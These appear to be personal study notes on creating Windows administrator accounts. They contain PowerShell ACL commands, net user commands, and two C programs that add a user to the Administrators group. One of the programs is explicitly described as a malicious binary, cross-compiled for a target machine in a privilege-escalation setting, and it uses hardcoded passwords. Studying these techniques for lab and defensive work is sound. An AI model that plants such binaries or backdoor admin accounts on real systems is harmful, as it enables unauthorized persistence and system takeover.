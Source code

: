#### Create a user an admin for cmd and powershell only:


###### <span style="color:rgb(0, 176, 240)">Step 1</span>: Create a New Group 
``` powershell
New-LocalGroup -Name "CmdPowerShellUsers" 
```
###### <span style="color:rgb(0, 176, 240)">Step 2</span>: Grant Permissions 
``` powershell
$acl = Get-Acl "C:\Windows\System32\cmd.exe"
$permission = "CmdPowerShellUsers", "ExecuteFile", "Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$acl.SetAccessRule($accessRule)
Set-Acl "C:\Windows\System32\cmd.exe" $acl
```
###### Repeat the same process for PowerShell executable
``` powershell
$acl = Get-Acl "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$permission = "CmdPowerShellUsers", "ExecuteFile", "Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$acl.SetAccessRule($accessRule)
Set-Acl "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" $acl
```
###### <span style="color:rgb(0, 176, 240)">Step 3</span>: Add User to Group
``` powershell
Add-LocalGroupMember -Group "CmdPowerShellUsers" -Member "Networkadmin"
# display the members of the "CmdPowerShellUsers"
Get-LocalGroupMember -Group "CmdPowerShellUsers"
# Display privileges for cmd.exe
Get-Acl "C:\Windows\System32\cmd.exe" | Format-List
# Display privileges for cmd.exe
Get-Acl "C:\Windows\System32\cmd.exe" | Format-List
# Display privileges for powershell.exe
Get-Acl "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" | Format-List
```

---
---
### Steps to Create an Admin User in CMD:

1. **Open Command Prompt as Administrator**:
    
    - Press `Windows Key + S`, type `cmd`, then right-click on "Command Prompt" and select "Run as administrator."
2. **Create a New User**: Use the following command to create a new user:
    
    ```
    net user <username> <password> /add
    ```
    
    Replace `<username>` with the desired username and `<password>` with the desired password. For example:
    
    ```
    net user AdminUser P@ssw0rd123 /add
    ```
    
3. **Add the User to the Administrators Group**: Use this command to grant the user administrative privileges:
    
    ```
    net localgroup administrators <username> /add
    ```
    
    Example:
    
    ```
    net localgroup administrators AdminUser /add
    ```
    
4. **Verify the User and Permissions** (Optional): To confirm that the user was created and added to the Administrators group, run:
    
    ```
    net user <username>
    ```
    
    and
    
    ```
    net localgroup administrators
    ```
    

### Example Output:

After running the commands:

- The user `AdminUser` will be created with the password `P@ssw0rd123`.
- It will belong to the "Administrators" group, granting it admin rights.
- If you need to **remove** the user later, use:
    
    ```
    net user <username> /delete
    ```

---
A small binary will create a user named dave2 and add that user to the local Administrators group using the system function. The cross-compiled version of this code will serve as our malicious binary. 

``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Since we know that the target machine is 64-bit, we'll cross-compile the C code to a 64-bit application with **x86_64-w64-mingw32-gcc**. In addition, we use **adduser.exe** as argument for **-o** to specify the name of the compiled executable.

``` shell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

---
### C Code to Create a New User and Add to Administrators Group:

```c
#include <stdio.h>
#include <windows.h>
#include <lm.h>

#pragma comment(lib, "netapi32.lib")

void createAdminUser(const wchar_t *username, const wchar_t *password) {
    USER_INFO_1 userInfo;
    NET_API_STATUS nStatus;
    LOCALGROUP_MEMBERS_INFO_3 groupInfo;

    // Set user information
    userInfo.usri1_name = (LPWSTR)username;
    userInfo.usri1_password = (LPWSTR)password;
    userInfo.usri1_priv = USER_PRIV_USER; // Standard user
    userInfo.usri1_home_dir = NULL;
    userInfo.usri1_comment = NULL;
    userInfo.usri1_flags = UF_SCRIPT | UF_DONT_EXPIRE_PASSWD;
    userInfo.usri1_script_path = NULL;

    // Create the user
    nStatus = NetUserAdd(NULL, 1, (LPBYTE)&userInfo, NULL);
    if (nStatus == NERR_Success) {
        wprintf(L"User '%s' created successfully.\n", username);
    } else if (nStatus == NERR_UserExists) {
        wprintf(L"User '%s' already exists.\n", username);
    } else {
        wprintf(L"Failed to create user '%s'. Error: %d\n", username, nStatus);
        return;
    }

    // Add user to Administrators group
    groupInfo.lgrmi3_domainandname = (LPWSTR)username;
    nStatus = NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&groupInfo, 1);
    if (nStatus == NERR_Success) {
        wprintf(L"User '%s' added to Administrators group successfully.\n", username);
    } else if (nStatus == ERROR_MEMBER_IN_ALIAS) {
        wprintf(L"User '%s' is already in the Administrators group.\n", username);
    } else {
        wprintf(L"Failed to add user '%s' to Administrators group. Error: %d\n", username, nStatus);
    }
}

int main() {
    // Replace with the desired username and password
    const wchar_t *username = L"NewAdminUser";
    const wchar_t *password = L"P@ssw0rd123";

    // Call the function to create the admin user
    createAdminUser(username, password);

    return 0;
}
```

### Instructions to Compile and Use:

1. **Install a C Compiler**:
    
    - Use `gcc` from [MinGW](https://mingw-w64.org/) or Microsoft Visual Studio to compile the code.
``` shell
sudo apt update
sudo apt install mingw-w64
```
1. **Compile the Code**: Save the code as `create_admin.c`, then compile it:
    
    - For GCC (MinGW):
    
```bash
x86_64-w64-mingw32-gcc -o create_admin.exe createAdmin.c -lnetapi32
```

2. **Run the Compiled Executable**: Run the resulting `create_admin.exe` as an administrator on the target machine:
    
    ```cmd
    create_admin.exe
    ```
    
3. **Verify the User**: Check if the user was created and added to the Administrators group using:
    
    ```cmd
    net user
    net localgroup administrators
    ```
    

### Notes:

- This program must run with administrative privileges.
- Use this responsibly and only on systems where you have authorization to make such changes.
- Customize the `username` and `password` variables as needed. Ensure the password complies with your organization's policy.
